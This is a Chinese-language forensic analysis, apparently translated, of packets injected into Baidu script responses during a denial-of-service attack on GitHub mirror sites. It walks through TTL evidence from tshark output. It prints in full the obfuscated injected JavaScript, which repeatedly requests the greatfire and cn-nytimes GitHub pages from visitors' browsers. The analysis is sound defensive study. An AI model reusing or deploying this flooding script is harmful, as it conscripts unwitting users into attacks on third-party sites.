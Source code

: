 ![enter image description here](http://drops.javaweb.org/uploads/images/e2f6d8f1f208ada95c367e755a49e8eac34aaea9.jpg)

注入后的响应每次的表现都是一样的，注入的三个数据包是下面这个样子的。

**_Injected packet #1:_**

```
HTTP/1.1 200 OK
Server: Apache
Connection: close
Content-Type: text/javascript
Content-Length: 1130

```

**_Injected packet #2:_**

```
eval(function(p,a,c,k,e,r){e=function(c){return(c<a?\'\':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!\'\'.replace(/^/,String)){while(c--)r[e(c)]=k[c][/c]||e(c);k=[function(e){return r[e]}];e=function(){return\'\\\\w+\'};c=1};while(c--)if(k[c][/c])p=p.replace(new RegExp(\'\\\\b\'+e(c)+\'\\\\b\',\'g\'),k[c][/c]);return p}(\'l.k("<5 p=\\\'r://H.B.9/8/2.0.0/8.C.t\\\'>\\\\h/5>");!J.K&&l.k("<5 p=\\\'r://L.8.9/8-T.t\\\'>\\\\h/5>");j=(6 4).c();7 g=0;3 i(){7 a=6 4;V 4.Z(a.10(),a.w(),a.x(),a.11(),a.y(),a.z())/A}d=["m://n.9/E","m://n.9/F-G"];o=d.I;3 e(){7 a=i()%o;q(d[a])}3 q(a){7 b;$.M({N:a,O:"5",P:Q,R:!0,S:3(){s=(6 4).c()},U:3(){f=(6 4).c();b=W.X(f-s);Y>f-j&&(u(b),g+=1)}})}3 u(a){v("e()",a)}v("e()",D);\',62,64,\'|||function|Date|script|new|var|jquery|com|||getTime|url_array|r_send2|responseTime|count|x3c|unixtime|startime|write|document|https|github|NUM|src|get|http|requestTime|js|r_send|setTimeout|getMonth|getDay|getMinutes|getSeconds|1E3|baidu|min|2E3|greatfire|cn|nytimes|libs|length|window|jQuery|code|ajax|url|dataType|timeou

```

**_Injected packet #3:_**

```
t|1E4|cache|beforeSend|latest|complete|return|Math|floor|3E5|UTC|getFullYear|getHours'.split('|'),0,{}))

```

恶意的js是经过混淆的，只需要一些简单的反混淆就可以得到源码。

![enter image description here](http://drops.javaweb.org/uploads/images/23e884b40251579166a53682dc32558276fbcb3d.jpg)

其中可以看到，两个目标url为 github.com/greatfire和github.com/cn-nytimes 这两个均为一个用于规避(GFW)的镜像站点。

0x02 TTL Analysis
=====

Time-To-Live (TTL) 分析是一种非常有效的手段用于进行中间人攻击的分析，我们用这种方法在之前对于 iCloud, Yahoo, Google和GitHub的攻击上进行分析并且取得了不错的结果。

这次攻击github一个有趣的地方在于，攻击者修改数据包的IP TTL值来致使难以定位恶意数据包的注入点。我们使用Tshark来输出Source-IP, Destination-IP, TCP-Flags和IP-TTL，请看下面箭头记号

```
tshark -r baidu-high-ttl.pcap -T fields -e ip.src -e ip.dst -e tcp.flags -e ip.ttl
192.168.70.160  61.135.185.140  0x0002  64 <- SYN (client)
61.135.185.140  192.168.70.160  0x0012  42 <- SYN+ACK (server)
192.168.70.160  61.135.185.140  0x0010  64 <- ACK (client)
192.168.70.160  61.135.185.140  0x0018  64 <- HTTP GET (client)
61.135.185.140  192.168.70.160  0x0018  227 <- Injected packet 1 (injector)
192.168.70.160  61.135.185.140  0x0010  64
61.135.185.140  192.168.70.160  0x0018  228 <- Injected packet 2 (injector)
61.135.185.140  192.168.70.160  0x0019  229 <- Injected packet 3 (injector)
192.168.70.160  61.135.185.140  0x0010  64
192.168.70.160  61.135.185.140  0x0011  64

```
